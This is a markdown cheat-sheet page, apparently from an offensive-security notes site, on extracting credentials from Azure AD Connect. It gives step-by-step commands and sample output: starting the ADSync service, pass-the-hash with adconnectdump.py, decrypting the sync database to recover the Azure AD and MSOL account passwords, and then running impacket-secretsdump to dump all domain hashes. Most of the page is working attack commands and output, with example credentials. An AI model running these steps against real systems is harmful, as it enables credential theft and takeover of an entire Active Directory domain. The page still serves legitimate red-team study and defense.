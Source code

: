 ```yaml
---
title: "Azure AD Connect"
date: 2025-02-21
tags: ["Azure AD Connect", "Secretsdump", "ADSync", "Password", "Active Directory", "Windows"]
---
```


### Abuse #1: Azure AD Connect Password Extraction

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Start ADSync Service

```console
Set-Service -name adsync -StartupType automatic
```

```console
Set-Service -name adsync -status running -passthru
```

```console {class="sample-code"}
Set-Service -name adsync -status running -passthru
WARNING: Waiting for service 'Microsoft Azure AD Sync (adsync)' to start...

Status   Name               DisplayName                           
------   ----               -----------                           
Running  adsync             Microsoft Azure AD Sync
```

#### 2. Download ADSync.mdf and ADSync_log.LDF

```console
python3 adconnectdump.py <DOMAIN>/<USER>@<TARGET_DOMAIN> -hashes :<HASH>
```

```console {class="sample-code"}
$ python3 adconnectdump.py SRV001/Administrator@srv001.example.local -hashes :7ddf32e17a6ac5ce04a8ecbf782ca509
Azure AD Connect remote credential dumper - by @_dirkjan
[*] Stopping service ADSync
[*] Downloading ADSync database files
[*] Starting service ADSync
[*] Querying database for configuration data
[-] RemoteOperations failed: [Errno 2] No such file or directory: 'ADSyncQuery.exe'
[*] Cleaning up...
```

#### 3. Queries credentials from the database

```console
# Copy both ADSync.mdf and ADSync_log.LDF to WindowsVM
.\ADSyncQuery.exe C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release\ADSync.mdf > out.txt
```

```console {class="sample-code"}
PS C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release> .\ADSyncQuery.exe C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release\ADSync.mdf > out.txt
```

#### 4. Credentials Dump

```console
# Copy out.txt back to Linux
python3 adconnectdump.py <DOMAIN>/<USER>@<TARGET_DOMAIN> -hashes :<HASH> --existing-db --from-file out.txt
```

```console {class="sample-code"}
$ python3 adconnectdump.py SRV001/Administrator@srv001.example.local -hashes :7ddf32e17a6ac5ce04a8ecbf782ca509 --existing-db --from-file out.txt  
Azure AD Connect remote credential dumper - by @_dirkjan
[*] Loading configuration data from out.txt on filesystem
[*] Loading configuration data from out.txt on filesystem
[*] Querying LSA secrets from remote registry
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x987bea20b50bfc66c273c58af1db3f81
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
[*] DPAPI_SYSTEM 
[*] Found DPAPI machine key: 0x7d9f2ed42e9261104b0741930fe622a71b6b4f50
[*] NL$KM 
[*] New format keyset detected, extracting secrets from credential store
[*] Querying credential file 406287F0CFB069C8F8686B36D48A941E
[*] Found SID S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451 for NT SERVICE\ADSync Virtual Account
[*] Decrypted ADSync user masterkey using SYSTEM UserKey + SID
[*] Found correct encrypted keyset to decrypt data
[*] Decrypting DPAPI data with masterkey 22D587F4-2779-4509-BA70-A611200BCC5E
[*] Decrypting encrypted AD Sync configuration data
[*] Azure AD credentials
[*]     Username: Sync_SRV001_2a1d03e02d11@a67632354763outlook.onmicrosoft.com
[*]     Password: A9]*w+X#Ox(YQ%{/
[*] Local AD credentials
[*]     Domain: example.LOCAL
[*]     Username: MSOL_2a1d03e02d12
[*]     Password: Mf#o@7f%CG^p}7fhAX*kubH:=nc:+-Vr%@OTf(Dli}GRM@YYt/a%{_XH%wmtI(Z]teQg+E0:Jw#vU;*[!^S76-#@:J|$-|>x-I)$Rd*N&TkIt+vJnAaI;)toY+J2m=z
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

#### 5. Secrets Dump

```console
impacket-secretsdump <DOMAIN>/<USER>:'<PASSWORD>'@<TARGET_DOMAIN> -just-dc
```

```console {class="sample-code"}
$ proxychains4 -q impacket-secretsdump example.local/MSOL_2a1d03e02d12:'Mf#o@7f%CG^p}7fhAX*kubH:=nc:+-Vr%@OTf(Dli}GRM@YYt/a%{_XH%wmtI(Z]teQg+E0:Jw#vU;*[!^S76-#@:J|$-|>x-I)$Rd*N&TkIt+vJnAaI;)toY+J2m=z'@dc.example.local -just-dc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ddf32e17a6ac5ce04a8ecbf782ca509:::
...[SNIP]...
```

<small>*Ref: [adconnectdump](https://github.com/dirkjanm/adconnectdump/tree/master)*</small>

{{< /tabcontent >}}

